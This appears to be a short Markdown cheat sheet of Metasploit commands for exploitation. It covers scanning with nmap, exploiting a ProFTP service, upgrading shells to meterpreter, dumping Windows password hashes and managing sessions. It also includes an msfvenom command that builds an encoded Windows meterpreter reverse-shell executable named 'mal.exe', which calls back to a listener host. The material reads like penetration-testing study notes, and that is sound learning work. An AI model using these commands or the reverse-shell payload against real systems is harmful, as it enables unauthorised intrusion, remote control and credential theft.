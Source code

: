 
## Linux Exploitation
1. nmap
2. msf6 > search Proftp
3. exploit it 


-> to upgrade session from shell to meterpreter
`session -u $session_id`
or
`search shell_to_meterpreter`



locate /opt/framework3/msf3
msfconsole -> to run the MSF

-> to run a module from inside the meterpreter:
```
meterpreter > run post/multi/gather/env

or crtl(strg) + z / background then 

msf > use post/windows/gather/hashdump
msf > show options 
msf > set SESSION 1 
msf > run
```

-> Encode a payload from msfpayload 5 times using shikata ga-nai encoder and output as executable: 
`$ msfvenom -p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe LHOST=10.1.1.1 LPORT=4444 > mal.exe`

-> to search for a module:
`msf > search [regex]`

-> Run the exploit expecting a single session that is 
immediately backgrounded:
`msf > exploit -z`

-> Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
`msf > exploit –j` 

-> List all current jobs (usually exploit listeners): 
`msf > jobs –l` 

-> Kill a job: 
`msf > jobs –k [JobID]`

-> List all backgrounded sessions:
`msf > sessions -l`

-> Interact with a backgrounded session:
`msf > session -i [SessionID]` 

-> Background the current interactive session: 
`meterpreter > <Ctrl+Z>` 
or
`meterpreter > background`
